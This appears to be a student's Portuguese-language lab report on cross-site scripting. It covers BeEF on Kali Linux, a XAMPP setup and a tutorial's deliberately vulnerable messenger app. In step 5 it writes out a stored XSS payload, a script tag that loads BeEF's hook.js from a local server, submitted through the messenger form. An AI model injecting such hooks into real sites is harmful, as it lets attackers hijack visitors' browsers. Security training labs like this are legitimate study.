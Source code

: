 # XSS - cross site scripting
## Relatório da Prática
Para realizar a atividade do tutorial, segui os passos propostos.
 1. Instalação do BeEF
	 Na execução das atividades utilizei o Kali Linux, sendo assim, não foi necessário instalar o BeEF já que o Kali já possui o mesmo instalado.
	 ![(1)](%281%29)
2. Instalação do Xampp
	A instalação foi feita seguindo os passos do seguinte tutorial: [link.](http://www.codebind.com/linux-tutorials/install-xampp-ubuntu-16-04/)
3. Configuração do Banco
	Nesta etapa, foi criado um novo banco chamado 'messeger' utilizando a ferramenta 'phpmyadmin'. Ainda no 'phpmyadmin', foi importado o arquivo 'messeger.sql' (fornecido no tutorial) para criar as tabelas.
	 ![(2)](%282%29)
4. Executar servidor
	Para executar o servidor, foi feito o download do mesmo a partir do [github do tutorial](https://github.com/antoniorrm/xss-pratica-seguranca).
	Após extrair o arquivo baixado, a pasta foi movida para o diretório `/opt/lampp/htdocs`.
	 ![(3)](%283%29)
5. O ataque
	Para realizar o ataque, foi necessário injetar o seguinte script no servidor vítima através o formulário da página 'messenger':
	> `<script src=\"http://127.0.0.1:3000/hook.js\"></script>`
	
	![(5)](%285%29)
	![(6)](%286%29)
	
	Após o script ter sido injetado, para realizar os ataques foi somente necessário abrir o BeEF, logar e executar os ataques.
	![(4)](%284%29)
	![(7)](%274%29)
	![(7)](%274%29)